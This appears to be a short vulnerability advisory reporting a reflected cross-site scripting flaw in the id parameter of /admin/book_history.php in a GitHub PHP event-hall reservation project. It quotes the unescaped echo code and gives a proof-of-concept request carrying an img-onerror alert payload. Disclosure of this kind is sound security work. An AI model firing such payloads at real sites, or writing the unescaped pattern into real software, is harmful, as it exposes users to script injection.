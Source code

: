# MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS book_history.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/book_history.php

## Code
```php
$id = $_GET['id'];

 <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Today">Today</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Week">This Week</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Month">This Month</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=User">User Cancelled</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Admin">Admin Cancelled</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>">All</a></li>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/book_history.php?id=%22%3E%3Cimg%20src=x%20onerror=alert(%22NoChizPlz%22)%3E HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/0c9e0749-9d44-4742-b12a-1c2601211053)

